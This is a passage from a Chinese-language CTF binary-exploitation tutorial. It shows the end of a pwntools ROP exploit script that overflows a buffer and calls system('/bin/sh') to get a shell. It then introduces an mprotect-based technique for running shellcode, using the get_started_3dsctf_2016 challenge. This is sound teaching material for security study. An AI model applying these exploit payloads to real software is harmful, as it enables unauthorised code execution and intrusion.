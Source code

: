 ```python
log.success('binsh_addr = ' + hex(binsh_addr))
log.success('system_addr = ' + hex(system_addr))

payload_attack = '\0' + 'a' * (0x50 + 7)
payload_attack += p64(ret_addr)
payload_attack += p64(pop_rdi_addr)
payload_attack += p64(binsh_addr)
payload_attack += p64(system_addr)

sh.sendlineafter('Input your choice!\n', '1')
sh.sendlineafter('Input your Plaintext to be encrypted\n', payload_attack)

sh.interactive()
```

<div align=center><img src="./images/40.png"></div>

## 内存的权限修改问题
### 思路
使用`mprotec`函数修改内存的权限为可读可写可执行, 然后在该内存中写入自己的`shellcode`, 执行该代码即可. `mprotect`函数原型如下:

```c++
int mprotect(void *addr, size_t len, int prot);
addr 内存启始地址
len  修改内存的长度
prot 内存的权限
```

### 例题讲解
这里用`get_started_3dsctf_2016`来演示这个类型的题目, 思路: 首先造成溢出, 让程序跳转到`mprotect`函数地址, 然后来设置`mprotect`的参数, 完成了修改内存为可读可写可执行, 将程序重定向到了我们修改好后的内存地址, 接下来我们只要传入`shellcode`即可.
